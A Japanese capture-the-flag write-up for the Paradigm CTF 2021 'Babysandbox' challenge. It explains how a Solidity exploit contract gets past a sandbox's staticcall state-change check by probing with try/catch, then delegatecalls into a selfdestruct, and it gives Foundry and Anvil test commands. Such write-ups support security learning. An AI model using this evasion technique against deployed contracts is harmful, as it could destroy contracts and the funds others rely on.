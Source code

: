 # Paradigm CTF 2021: Babysandbox

## ソース
- [問題コントラクト](challenge)
- [Exploit](BabysandboxExploit.sol)
- [Test](test_exploit.sh)

## 概要
`Babysandbox`コントラクトの`run`関数で`selfdestruct`を実行する問題。ただしステート変化の検知を回避する必要がある。

## Writeup
`assembly`ブロックの1つ目のif文の条件を満たせば、`run`関数の引数であるアドレス`code`に対してdelegatecallできる。

```solidity
if eq(caller(), address()) {
    switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
    case 0 {
        returndatacopy(0x00, 0x00, returndatasize())
        revert(0x00, returndatasize())
    }
    case 1 {
        returndatacopy(0x00, 0x00, returndatasize())
        return(0x00, returndatasize())
    }
}
```

よって、アドレス`code`のコントラクトで`selfdestruct`すれば解けそうであるが、単純に`fallback`関数で`selfdestruct`しても失敗する。
というのも、delegatecallを実行する前に`code`に対して同じcalldata (=`""`)でstaticcallが実行され、そのstaticcallが失敗すると、その時点で`run`関数はrevertされる。
つまり、staticcallで`selfdestruct`のようなステートが変化する処理を単純に実行してしまうとdelegatecallに辿り着けない。

```solidity
// run using staticcall
// if this fails, then the code is malicious because it tried to change state
if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) { revert(0x00, 0x00) }

// if we got here, the code wasn't malicious
// run without staticcall since it's safe
switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
case 0 { returndatacopy(0x00, 0x00, returndatasize()) }
// revert(0x00, returndatasize())
case 1 {
    returndatacopy(0x00, 0x00, returndatasize())
    return(0x00, returndatasize())
}
```

### staticcallを無視したexploit
簡単のためにstaticcallでのステート変化の検知を無視した場合を考えてみる。
このときdelegatecallを実行するには、if文の条件「`caller()`と`address()`の一致」を満たす必要がある。
これを満たすにはsandbox内からcallすれば良い。

`call(0x4000, address(), 0, 0, calldatasize(), 0, 0)`の部分を考える。callの引数は、順に`gas`, `address`, `value`, `argsOffset`, `argsSize`, `retOffset`, `retSize`の7つ。
`calldatacopy`によってcalldataはメモリにコピー済みであるため、calldata（`run`関数の実行部）がそのまま渡されることになる。そしてdelegatecallが`code`に対して実行される。

そのため、staticcallを無視すれば以下のexploitで良い。
```solidity
contract BabysandboxExploit {
    fallback() external {
        selfdestruct(payable(address(0)));
    }
}
```

### staticcallを考慮したexploit
staticcallによってステートの変化が起きる`selfdestruct`は単純に実行できずrevertされる。
最初に実行されるstaticcallと次に実行されるcallをexploit側が区別する方法が必要である。
これはtry/catch文を使って実際に状態を変化させられるかどうかを試すことで判別できる。
try文の式には外部関数コールとコントラクト作成のみ指定できるから、

- 外部関数コールで別のコントラクトのステートが変化できるかどうかを試し、
- もし変化可能ならdelegatecallを実行、
- そうでないなら何もしない

というようにすれば、staticcallのステート変化検知によるrevertを回避できる。
そしてstaticcallを失敗させずにcallに辿り着き実行を継続させられる。

例えば、以下のようなコードを思いつく。
```solidity
contract StateChange {
    uint a = 0;
    function f() external {
        a++;
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        }
        catch {}
    }
}
```

しかし、これは`OutOfGas`になる。callの`0x4000` (`16384`) gasの制限に引っかかるためである。
これに対処するには`StateChange`の変数を無くし、`selfdestruct`にすると良い。`selfdestruct`を使うことで使えるgasが増える。関連: [EIP-2200: Structured Definitions for Net Gas Metering ](https://eips.ethereum.org/EIPS/eip-2200), [EIP-3298: Removal of refunds](https://eips.ethereum.org/EIPS/eip-3298)。
最終的なexploitは以下。

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract StateChange {
    function f() external {
        selfdestruct(payable(address(0)));
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        } catch {}
    }
}
```

## Test

```
bash src/ParadigmCTF2021/Babysandbox/test_exploit.sh
```

**Testの解説**

Forgeのtestはtransaction-baseであるため、テストの間は`extcodesize`の結果が変わらない。
よってtest機能は使わず、Forgeのscript機能とAnvilを組み合わせることでテストを行う。まずはsetup用とplayer用の2つのアカウントを決める。今回はAnvilのデフォルトアカウント（0番目と1番目）を使う。

```sh
export RPC_ANVIL=http://127.0.0.1:8545
export FOUNDRY_ETH_RPC_URL=$RPC_ANVIL

# Anvil account 0
export PRIVATE_KEY_SETUP=ac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
# Anvil account 1
export PRIVATE_KEY_PLAYER=59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
```

次にAnvilを起動する。
```sh
anvil --silent 1>/dev/null &
sleep 1
```
`sleep`は使いたくないが、これを挟んでAnvilが完全に起動するまで待たないと次に実行する`forge script`でRPCのエラーが起きる。

scriptを実行する。
```sh
forge script BabysandboxExploitTestScript --fork-url $RPC_ANVIL --broadcast --private-keys $PRIVATE_KEY_SETUP --private-keys $PRIVATE_KEY_PLAYER --gas-limit 1000000 --gas-estimate-multiplier 200 -vvvvv
```
現在、Forgeのscriptで個別のトランザクションにgasを指定する方法が存在しないため、`--gas-estimate-multiplier 200`を指定する必要がある。関連: https://github.com/foundry-rs/foundry/issues/2627 。


解けたかどうか`cast call`で確認する。
```sh
# 31337: chain id of Anvil
SETUP_ADDRESS=$(python -c 'import json; print(json.load(open("broadcast/BabysandboxExploitTest.s.sol/31337/run-latest.json"))["transactions"][0]["contractAddress"])')
# A result of EXTCODESIZE remains the same until a transaction is terminated.
SOLVED=$(cast call $SETUP_ADDRESS "isSolved()(bool)")

pkill anvil

echo "Result:" $SOLVED
```

結果:
```
Result: true
```